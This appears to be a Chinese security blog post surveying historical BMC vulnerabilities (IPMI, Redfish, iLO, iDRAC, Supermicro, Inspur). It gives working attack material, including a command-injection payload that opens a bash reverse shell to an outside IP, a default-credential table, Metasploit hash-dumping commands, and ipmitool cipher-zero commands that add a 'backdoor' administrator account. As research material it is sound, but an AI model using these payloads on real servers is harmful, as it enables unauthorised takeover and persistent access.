







BMC 历史漏洞汇总
BMC 历史漏洞汇总
刚开始接触 BMC 以为研究的人比较少，感觉一般人也没有机会接触到。尤其是服务器风扇的声音，一般人也不想去碰。去查了一下 CVE 之后，发现有不少漏洞，还挺多人玩的。近期也在研究这一块，把 BMC 曾曝出的漏洞做个汇总，看看大佬们都有哪些奇妙的思路。
BMC(Baseboard Management Controller)即基板管理控制器，提供 IPMI/Redfish 架构中的智能特性。它是嵌入在计算机（通常是服务器）主板上的专用微控制器。 BMC负责管理系统管理软件和平台硬件之间的接口。用于计算机系统的带外管理和管理员操作监视。提供的服务包括服务器物理健康状态检测，服务器软硬件信息和运行状态查询、开关机、远程安装操作系统等。
有了BMC，运维人员可以通过浏览器等远程控制服务器（下图是HPE ILO后台），比如开关机、装系统、进入服务器终端等，而不用跑到机房忍受高温、令人崩溃的声音。而我们搞安全的就不一样，就喜欢听（被迫，要连接串口线)，都不用降噪耳机呢！

云服务器带外管理
带外管理是指远程客户端通过网络物理通道对服务器进行控制管理和维护。常见的带外管理接口有 IPMI 和 Redfish。
IPMI
1998年，由Intel和HP主推的IPMI标准，引入了单独的带外管理芯片BMC。智能平台管理接口（IPMI）是一套为自主计算机子系统定义的计算机接口规范，用于提供独立于主机系统的CPU，固件（BIOS或UEFI）和操作系统等软硬件的管理和监视功能。 IPMI定义了一套系统管理员接口，格式统一格式，对下层透明，可以架构在网络、串行/Moderm接口、IPMB（I2C）、KCS、SMIC、SMBus等不同接口上。
IPMI也在 2015 年公布 2.0 v1.1标准后，停止更新维护，被 RedFish 永久代替。为了做到兼容，现在不少服务器上仍然支持 IPMI。
IMPI规范主体架构如下：


使用 IPMI 的 BMC系统如下所示：

IPMI 命令举例
1 | # 查看设备信息 |
Redfish
RedFish标准由DMTF组织的SPMF论坛维护，它的提出者与 IPMI 的提出者几乎一样。可以说是下一代云服务器带外管理接口。开发Redfish的主要原因之一是解决 IPMI 遗留的无法有效解决的安全需求。Redfish的第1版侧重于服务器，为IPMI - over - LAN提供了一个安全、多节点的替代品。随后 的Redfish版本增加了对网络接口(例如NIC、 CNA和FC HBA )、PCIe交换、本地存储、 NVDIMM、多功能适配器和可组合性以及固 件更新服务、软件更新推送方法和安全特权映射的管理。
Redfish 是一种基于 HTTPs 服务的管理标准，利用 RESTful 接口实现设备管理。每个 HTTPs 操作都以 UTF-8 编码的JSON 的形式，提交或返回一个资源。就像 Web 应用程序向浏览器返回 HTML 一样，RESTful 接口会通过同样的传输机制(HTTPS)，以JSON 的形式向客户端返回数据，用于现有客户端应用程序和基于浏览 器的GUI。
API 举例
在Redfish中，所有资源都是从服务入口点（ root ）链接的，服务入口点始终位于URL： /redfish/v1。添加用户/redfish/v1/AccountService/Account:

含POC的漏洞（部分）
CVE-2020-21224 : 浪潮 NF5266M5 Cluster Management System 命令注入

用户登录页面中的用户和密码字段存在命令注入漏洞。后台的处理代码类似。
1 | var1 = `grep xxxx` |

发送 POST 消息实现反弹shell。
1 | op=login&username=1 2\',\'1\'\); `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261` |

CVE-2019-19642: SuperMicro IPMI 命令注入
基于IPMI 的虚拟媒体服务存在命令注入漏洞，ShareHost 、ShareName、PathToimg 等参数均存在命令注入问题，可以使用反引号 “`” 注入任意命令。

CVE-2020-15046: SuperMicro IPMI 03.40 - CSRF(添加管理员用户)
CSRF 添加管理员用户 POC :
1 | <html> |
HPE iLO5 Web 后台 DHCP 选项 15domain name 未转移特殊字符，造成了XSS。

CVE-2017-12542: HPE ILO4 认证绕过
在访问 https://127.0.0.1:8443/rest/v1/AccountService/Accounts 时，在HTTP头的Connection中添加大于等于29个字符后，即可绕过验证（下图为成功获取到目标的iLO登录用户名）：

CVE-2014-8272: Dell iDRAC IPMI 1.5 - Session ID 随机化问题可被预测
iDRAC 的 session 格式为 0x0200XXYY。三四字节 0x0200 代表 iDRAC 支持的 IPMI 的版本。第一个字节 YY 的取值范围在 0x00~03，表示会话ID，意味着多点登录的数量不能超过4个。第二个字节 XX，在激活阶段使用临时会话ID后会+1。0x00 具备特殊含义，剩下 28- 1 种可能，从 0x01 ~ 0xFF。
利用：
- 使用任意账户发送 “Get Session Challenge” 请求获取当前的临时会话 ID。
- 使用下一个会话 ID 构造 IPMI 命令，这个会话 ID 是临时ID+3。
- 重复发送构造的请求，注入到下一个会话中。
利用脚本: exploit-db
Supermicro IPMI 密码泄露
SuperMicro老版本在49152放置了明文密码文件。攻击者可以通过请求服务器49152端口的 /PSBlock 文件，就可得到80端口web管理界面的密码，密码放在PSBlock文件中。
IPMI 接口漏洞
IPMI（Intelligent PlatformManagement Interface）智能平台管理接口，原本是一种Intel架构的企业系统的周边设备所采用的一种工业标准。IPMI亦是一个开放的免费标准，用户无需支付额外的费用即可使用此标准。
IPMI 能够横跨不同的操作系统、固件和硬件平台，可以智能的监视、控制和自动回报大量服务器的运行状况，以降低服务器系统成本。IPMI基于UDP协议进行传输，基于该协议建立的远程管理控制服务，默认绑定在623端口。
- 大部分设备都存在默认账号和密码。
| 设备 | 默认用户名 | 默认密码 |
|---|---|---|
| HP Integrated Lights Out (iLO) | Administrator | 8 位随机字符 |
| Dell Remote Access Card (iDRAC, DRAC) | root | calvin |
| IBM Integrated Management Module (IMM) | USERID | PASSW0RD (with a zero) |
| Fujitsu Integrated Remote Management Controller | admin | admin |
| Supermicro IPMI (2.0) | ADMIN | ADMIN |
| Oracle/Sun Integrated Lights Out Manager (ILOM) | root | changeme |
| ASUS iKVM BMC | admin | admin |
| Huawei Intelligent Baseboard Management Controller(iBMC) | root | Huawei12#$ |
CVE-2013-4786：IPMI 2.0 RAKP 密码哈希泄露
在IPMI RAKP 消息 2 回复中包含获得 HMAC，通过本地爆破可以得到密码。
1
2
3
4$ ipmitool -I lanplus -v -v -v -U ADMIN -P fluffy-wuffy -H 192.168.8.117 chassis identify
[...]
Key exchange auth code [sha1] : 0xede8ec3caeb235dbad1210ef985b1b19cdb40496
[...]Metasploit 供了扫描模块 auxiliary/scanner/ipmi/ipmi_dumphashes。
1
2
3
4
5
6
7
8msf> use auxiliary/scanner/ipmi/ipmi_dumphashes
msf auxiliary(ipmi_dumphashes) > set RHOSTS 10.0.0.0/24
msf auxiliary(ipmi_dumphashes) > set THREADS 256
msf auxiliary(ipmi_dumphashes) > run
[ ] 10.0.0.59 root:266ead5921000000....000000000000000000000000000000001404726f6f74:eaf2bd6a5 3ee18e3b2dfa36cc368ef3a4af18e8b
[ ] 10.0.0.59 Hash for user 'root' matches password 'calvin'
[ ] 10.0.0.59 :408ee18714000000d9cc....000000000000000000000000000000001400:93503c1b7af26abee 34904f54f26e64d580c050e
[ ] 10.0.0.59 Hash for user '' matches password 'admin'-
远程攻击者可通过使用密码套件0（又名cipher zero）和任意的密码，利用该漏洞绕过身份认证，执行任意IPMI命令。IPMI 2.0使用cipher zero加密组件时，攻击者只需要知道一个有效的用户名就可以接管IPMI的功能。
正常状态下，使用错误的账户是不能建立会话的。
1
2
3$ ipmitool -I lanplus -H 10.0.0.99 -U Administrator -P FluffyWabbit user list
Error: Unable to establish IPMI v2 / RMCP session
Get User Access command failed (channel 14, user 1)添加
-C 0选项，使用 cipher 0 了绕过认证。1
2
3
4$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user list
ID Name Callin Link Auth IPMI Msg Channel Priv Limit
1 Administrator true false true ADMINISTRATOR
2 (Empty User) true false false NO ACCESS添加一个后门账户。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user set name 2 backdoor
$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user set password 2 password
$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user priv 2 4
$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user enable 2
$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user list
ID Name Callin Link Auth IPMI Msg Channel Priv Limit
1 Administrator true false true ADMINISTRATOR
2 backdoor true false true ADMINISTRATOR
$ ssh backdoor@10.0.0.99
backdoor@10.0.0.99's password: password
User:backdoor logged-in to ILOMXQ3469216(10.0.0.99)
iLO 4 Advanced Evaluation 1.13 at Nov 08 2012
Server Name: host is unnamed
Server Power: On
</>hpiLO->
漏洞列表（部分）
BMC 存在的漏洞以 Web 后台管理的居多，IPMI、Redfish 等管理接口也有不少的问题。暴露的漏洞种类繁多，出现的漏洞类型如下,并列举了部分案例。总体来看命令注入、认证绕过、越权以及信息泄露这四种占比较大，威胁系数也属于最高。
XSS
- CVE-2019-11216: 惠普 iLO5 XSS 漏洞。
- CVE-2019-6159: IBM System x IMM XSS 漏洞。
CSRF
- CVE-2020-15046: SuperMicro IPMI 03.40 可利用 CSRF 添加管理员用户。
命令注入
CVE-2020-21224 : 浪潮 NF5266M5 Cluster Management System 命令注入。
CVE-2019-1885: 思科 Integrated Management Controller (IMC) 由于校验不足，导致可通过 redfish 执行任意命令。
- CVE-2019-19642: SuperMicro IPMI 基于IPMI 的虚拟媒体服务存在命令注入漏洞。
- CVE-2018-9086: Lenovo ThinkServer-branded 服务器固件下载命令存在命令注入漏洞，允许授权用户下载任意代码执行。
越权
- CVE-2018-15774：戴尔 EMC iDRAC 校验不足导致，普通用户可通过 redfish 提升至管理员权限。
- CVE-2018-7950/CVE-2018-7951 华为 iBMC JSON 注入修改管理员密码提升至管理员权限。
- CVE-2018-7949 : 华为 iBMC 登录功能存在缺陷，低权限用户可获得以及修改管理员密码。
- CVE-2018-7941: 华为 iBMC 低权限用户通过上传证书提升至管理员权限。
- CVE-2017-17323：华为 iBMC 低权限用户可访问高权限用户才能访问的页面。
认证绕过
- CVE-2018-1668: IBM DataPower Gateway 允许使用 “null” 登录，能够读取 IPMI 的敏感数据。
- CVE-2017-12542： HPE iLO5 认证绕过漏洞。
- CVE-2013-4784: HP iLO 任意密码绕过, 利用 IPMI cipher 0。
- CVE-2014-8272: IPMI 1.5 会话ID随机性不足。
- CVE-2013-4782: Supermicro 身份验证绕过导致任意代码执行。
- CVE-2013-4783: Dell iDRAC6 身份验证绕过导致任意代码执行。
加密算法强度不足
- CVE-2016-6899：华为 iBMC 包含了弱加密算法，攻击者能够解密加密的数据，导致信息泄露。
拒绝服务
- CVE-2016-6900： 华为 iBMC 资源消耗漏洞，造成拒绝服务漏洞。
缓冲区溢出
- CVE-2021-29202: HPE iLO4/5 缓冲区溢出漏洞。
- CVE-2013-3623: Supermicrocgi/close_window.cgi缓冲区溢出任意命令执行。
- CVE-2013-3622: Supermicro logout.cgi缓冲区溢出任意命令执行
信息泄露：管理员凭证、任意文件下载、API接口
- CVE-2020-14156: openbmc 信息泄露，任何使用 SSH、SCP 访问 MBC 的用户都能去读
/etc/ipmi_pass文件，解码认证凭证后能越权到其他用户。 - CVE-2014-0860: IBM BladeCenter高级管理模块IPMI明文凭证泄漏。
- CVE-2013-4786: IPMI2.0离线密码爆破漏洞。
- CVE-2013-4037: IBM IPMI明文凭证泄漏。
- CVE-2013-4037: IPMI 密码哈希值泄漏漏洞。
- CVE-2020-14156: openbmc 信息泄露，任何使用 SSH、SCP 访问 MBC 的用户都能去读
硬编码：
- CVE-2019-4621: 特殊状态下的默认口令
- CVE-2013-4031: IPMI用户默认账号登录漏洞。
逻辑漏洞：
- CVE-2020-26122：浪潮 NF5266M5 服务器固件更新验证脆弱，向固件包中插入恶意代码可获取系统控制权。
- CVE-2019-4169: IBM Open Power Firmware OP910 and OP920 密码更改后原密码不失效。
- CVE-2019-6161: ThinkAgile CP-SB 会话可被重用。
公网设备
参考
- 基于IPMI协议的DDoS反射攻击分析
- IPMI相关漏洞利用及WEB端默认口令登录漏洞
- 服务器BMC技术调研
- 服务器基板管理控制器(BMC)带外管理功能和性能要求
- CVE-2017-12542简单分析及复现
- ClusterEngineV4.0 Vul
- SuperMicro IPMI Exploitation
- CVE-2014-8272: A Case of Weak Session-ID in Dell iDRAC
- A Penetration Tester’s Guide to IPMI and BMCs
- Supermicro IPMI Firmware Vulnerabilities
- 623/UDP/TCP - IPMI - HackTricks
- Cracking IPMI Passwords Remotely
- The Infamous Cipher Zero
- CVE-2019-6260: Gaining control of BMC from the host processor
- CVE-2017-13130 - BMC Patrol ‘mcmnm’ - Privilege Escalation via a Vulnerable SUID Binary
- CVE - iBMC
- CVE - iLO
- CVE - inspur
- CVE - redfish
- CVE - ipmi
- CVE - BMC
- CVE - IMM2